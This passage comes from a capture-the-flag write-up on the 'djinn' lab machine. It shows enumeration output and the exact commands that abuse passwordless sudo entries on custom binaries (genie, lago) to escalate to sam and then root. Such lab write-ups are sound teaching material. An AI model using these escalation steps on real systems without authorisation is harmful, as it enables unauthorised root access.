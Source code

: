 Running LSE shows that we can run some binary called ```genie``` without a password as ```sam```.

```
[!] sud010 Can we list sudo commands without a password?................... yes!
---
Matching Defaults entries for nitish on djinn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nitish may run the following commands on djinn:
    (sam) NOPASSWD: /usr/bin/genie
---
...
```

This is a user-created binary, so we can only mess with it to learn how it works.

Eventually, running the command ```sudo -u sam genie -cmd new``` makes us the ```sam``` user.

```
nitish@djinn:~$ sudo -u sam genie -cmd new
my man!!
$ whoami
sam
$ 
```

## Step 7 - Privilege Escalation Part 3

Running LSE again as ```sam```, we find another binary we can run as root using sudo without a password.

```
[!] sud010 Can we list sudo commands without a password?................... yes!
---
Matching Defaults entries for sam on djinn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sam may run the following commands on djinn:
    (root) NOPASSWD: /root/lago
---
```

Messing with this binary (for an annoyingly long time...), we eventually get a working set of commands to get a privilege escalation to root.

```
$ sudo -u root /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:2
Choose a number between 1 to 100: 
Enter your number: num
# whoami
root
```
